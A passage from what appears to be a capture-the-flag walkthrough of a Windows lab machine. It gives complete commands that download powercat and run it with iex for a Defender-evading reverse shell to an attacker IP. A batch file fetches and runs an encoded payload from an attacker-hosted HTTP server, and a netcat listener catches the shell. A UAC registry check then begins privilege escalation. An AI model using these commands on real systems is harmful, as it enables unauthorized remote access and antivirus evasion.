 Alright, following the playbook from the article, let's install Powercat (https://github.com/besimorhino/powercat) then write the followings commands after use python3 and NC in the port that you just select

[Evade Windows Defender reverse shell detection with Powercat](https://systemweakness.com/evade-windows-defender-reverse-shell-detection-6fa9f5eee1d1)

```bash
1)LHOST=10.2.87.109   
LPORT=9999
rshell=shell-443.txt
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > $rshell

2)LHOST=10.2.87.109   
LPORT_web=80
rshell=shell-443.txt
echo START /B powershell -c "\$code=(New-Object System.Net.Webclient).DownloadString('http://${LHOST}:${LPORT_web}/${rshell}');iex 'powershell -E \$code'" > backup.bat

3) python3 -m http.server 80

4) rlwrap nc -nlvp 9999
```

Now, let’s complete one more time the form nonetheless with the .bat file 

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/respuesta2.png)

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/hugoshell.png)

WE GOT HUGO SHELL 

---

## Privilege Escalation

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/grupos.png)

I see that `hugo` is part of the administrator group, now let's check if UAC is present.

> User Account Control (UAC) is a key part of Windows security. UAC reduces the risk of malware by limiting the ability of malicious code to execute with administrator privileges.
> 

```bash
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5 = default
```
